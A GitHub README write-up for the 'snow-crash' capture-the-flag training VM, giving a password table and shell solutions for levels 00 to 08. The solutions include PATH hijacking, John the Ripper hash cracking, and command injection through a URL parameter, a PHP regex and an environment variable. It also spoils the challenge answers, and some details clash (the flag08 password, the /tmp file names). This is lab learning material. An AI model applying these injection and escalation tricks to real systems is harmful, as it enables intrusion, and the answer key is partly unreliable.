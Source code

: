 # snow-crash
This project will be an introduction to cyber security.

## Passwords

| User    | Password                  |
| :-----: |:-------------------------:|
| level00 | level00                   |
| flag00  | nottoohardhere            |
| level01 | x24ti5gi3x0ol2eh4esiuxias |
| flag01  | abcdefg                   |
| level02 | f2av5il02puano7naaf6adaaf |
| flag02  | ft_waNDReL0L              |
| level03 | kooda2puivaav1idi4f57q8iq |
| level04 | qi0maab88jeaj46qoumi7maus |
| level05 | ne2searoevaevoem4ov4ar8ap |
| level06 | viuaaale9huek52boumoomioc |
| level07 | wiok45aaoguiboiki2tuin6ub |
| level08 | fiumuikeil55xe9cu4dood66h |
| flag08  | fiumuikeil55xe9cu4dood66h |
| level09 | 25749xKZ8L7DkSCwJkT9dyv6f |

## Script

### level00

```bash
level00@SnowCrash:~$ find / -user flag00 2>/dev/null
/usr/sbin/john
/rofs/usr/sbin/john
```

```bash
level00@SnowCrash:~$ cat /usr/sbin/john
cdiiddwpgswtgt
```

- [identify encryption method](https://www.dcode.fr/identification-chiffrement)
- [decrypt cesar code](https://www.dcode.fr/chiffre-cesar)

### level01

```bash
flag00@SnowCrash:~$ cat /etc/passwd | grep flag01
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
```

Using ``john the ripper`` I was able to find corresponding password.

```bash
user@hostname:~$ echo "42hDRfypTqqnw" > /tmp/password-file && john /tmp/password-file && john -show /tmp/password-file
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
No password hashes left to crack (see FAQ)
?:abcdefg
1 password hash cracked, 0 left
```

### level02

Open ``level02.pcap`` in wireshark then Statistics -> Conversations -> Tab TCP -> Follow Stream

### level03

```bash
level03@SnowCrash:~$ strings ./level03 | grep Exploit
/usr/bin/env echo Exploit me
level03@SnowCrash:~$ cp /bin/getflag ./echo
level03@SnowCrash:~$ PATH=$PWD ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

### level04

```bash
level04@SnowCrash:~$ curl localhost:4747?x='$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

### level05

```bash
echo "getflag > /tmp/log" > /opt/openarenaserver/foo
sleep 120
cat /tmp/foo
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

### level06

```bash
level06@SnowCrash:~$ echo '[x {$z(getflag)}]' > file
level06@SnowCrash:~$ ./level06 file shell_exec
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag x Here is your token : wiok45aaoguiboiki2tuin6ub
```

### level07

```bash
level07@SnowCrash:~$ LOGNAME='`getflag`' ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
### level08

```
level08@SnowCrash:~$ mv token toto && ./level08 toto
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
